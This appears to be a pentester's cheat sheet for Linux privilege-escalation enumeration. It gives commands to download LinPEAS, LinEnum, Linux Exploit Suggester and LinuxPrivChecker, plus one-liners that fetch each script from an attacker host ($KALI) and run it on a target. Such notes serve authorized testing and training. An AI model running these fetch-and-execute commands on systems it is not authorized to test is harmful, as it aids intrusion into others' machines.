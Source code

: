 ![[Python#Server]]

#### LinPEAS
```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

```bash - kali
wget http://$KALI/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh -a > linpeas.txt &
```

```bash - kali
less -r linpeas.txt
```

#### LinEnum
```bash - linux
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

```bash - linux
wget http://$KALI/LinEnum.sh && chmod +x LinEnum.sh && ./LinEnum.sh > LinEnum.txt &
```

```bash - kali
less -r LinEnum.txt
```

#### Linux Exploit Suggester
```bash - linux
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
```

```bash - linux
wget http://$KALI/linux-exploit-suggester.sh && chmod +x linux-exploit-suggester.sh && ./linux-exploit-suggester.sh > linux-exploit-suggester.txt &
```

```bash - kali
less -r linux-exploit-suggester.txt
```

#### LinuxPrivChecker
```bash - linux
wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py
```

